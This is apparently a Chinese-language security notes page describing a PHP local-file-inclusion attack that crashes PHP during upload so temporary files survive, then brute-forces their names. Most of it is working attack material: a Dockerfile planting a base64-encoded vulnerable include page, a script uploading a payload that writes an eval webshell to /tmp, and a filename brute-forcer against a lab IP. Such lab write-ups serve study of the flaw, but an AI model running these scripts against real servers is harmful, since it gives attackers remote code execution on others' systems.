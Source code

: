 参考：
- https://www.jianshu.com/p/dfd049924258

php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

[利用core dumped错误可以实现](PHP7的2个core_dumped错误)

参考：
- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/

### 环境

因为php在最新的php7.X中都进行修复了。所以我们从php官网手动下载php小版本进行测试。
所以就用Docker制作了php7210的环境然后commit并push到dockerhub上了，名字为：`j7ur8/php7012_apache2:origin`
```bash
FROM j7ur8/php7012_apache2:origin

RUN rm  /usr/local/apache2/htdocs/index.php


RUN echo 'PD9waHAKICAoJF89QCRfR0VUWydvcmFuZ2UnXSkgJiYgQHN1YnN0cihmaWxlKCRfKVswXSwwLDYpID09PSAnQDw/cGhwJyA/IGluY2x1ZGUoJF8pIDogaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pOw==' | base64 -d > /usr/local/apache2/htdocs/index.php
RUN chmod -R 777 /usr/local/apache2/htdocs

CMD /usr/local/apache2/bin/apachectl -k start & /bin/bash -c "while true;do echo hello docker;sleep 1;done"
```

### 利用

![](/images/19-6-15_PHP_包含临时文件1.png)
利用思路就是在文件上传时，使php停止运行。这时就不会删除临时文件。而生成的临时文件的数量是可控的。所以我们可以通过爆破得到shell文件。

作者写的利用脚本
```py
import requests
import string

charset = string.digits + string.letters

host = "172.20.10.5"
port = 82
base_url = "http://%s:%d" % (host, port)


def upload_file_to_include(url, file_content):
    files = {'file': ('evil.jpg', file_content, 'image/jpeg')}
    try:
        response = requests.post(url, files=files)
    except Exception as e:
        print e


def generate_tmp_files():
    webshell_content = '<?php eval($_REQUEST[c]);?>'.encode(
        "base64").strip().encode("base64").strip().encode("base64").strip()
    file_content = '<?php if(file_put_contents("/tmp/ssh_session_HD89q2", base64_decode("%s"))){echo "flag";}?>' % (
        webshell_content)
    phpinfo_url = base_url+"/index.php?orange=php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA"
    length = 6
    times = len(charset) ** (length / 2)
    for i in xrange(times):
        print "[+] %d / %d" % (i, times)
        upload_file_to_include(phpinfo_url, file_content)


def main():
    generate_tmp_files()


if __name__ == "__main__":
    main()
```

爆破文件名
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import string

charset = string.digits + string.letters

host = "172.20.10.5"
port = 82
base_url = "http://%s:%d" % (host, port)


def brute_force_tmp_files():
    for i in charset:
        for j in charset:
            for k in charset:
                for l in charset:
                    for m in charset:
                        for n in charset:
                            filename = i + j + k + l + m + n
                            url = "%s/index.php?orange=/tmp/php%s" % (
                                base_url, filename)
                            print url
                            try:
                                response = requests.get(url)
                                if 'flag' in response.content:
                                    print "[+] Include success!"
                                    return True
                            except Exception as e:
                                print e
    return False


def main():
    brute_force_tmp_files()

if __name__ == "__main__":
    main()
```